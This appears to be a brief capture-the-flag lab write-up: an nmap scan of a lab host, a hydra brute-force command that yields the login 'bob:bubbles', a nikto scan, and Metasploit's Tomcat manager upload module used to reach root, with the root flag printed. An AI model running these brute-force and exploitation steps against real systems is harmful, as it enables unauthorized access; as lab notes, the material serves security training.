 ## nmap

```sql
└─$ nmap -sC -sV -oN nmap 10.10.55.216
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 15:11 IST
Nmap scan report for 10.10.55.216
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 82:95:bf:c3:85:cb:cc:42:6a:64:a4:e5:d0:20:94:f2 (RSA)
|   256 56:01:70:78:e8:f8:40:ee:cb:57:de:2b:46:90:57:0e (ECDSA)
|_  256 c5:17:5c:ed:40:06:e5:39:92:de:27:64:f5:f8:03:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.56 seconds
```


## web

![[Pasted image 20210607151229.png]]

![[Pasted image 20210607151640.png]]

/guidelines

![[Pasted image 20210607151408.png]]


hydra login brute force

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.55.216 http-get "/protected" `

![[Pasted image 20210607152503.png]]

`bob:bubbles`

![[Pasted image 20210607152706.png]]

`nikto -h http://10.10.55.216:1234/manager/html -id bob:bubbles`

it would take ages and there are 5 docs
![[Pasted image 20210607155712.png]]


## exploit
Apache Tomcat/Coyote JSP engine 1.1 exploit

https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy/

this didnt worked so use `multi/http/tomcat_mgr_upload`
 
 and it worked 
![[Pasted image 20210607154106.png]]

root flag === ff1fc4a81affcc7688cf89ae7dc6e0e1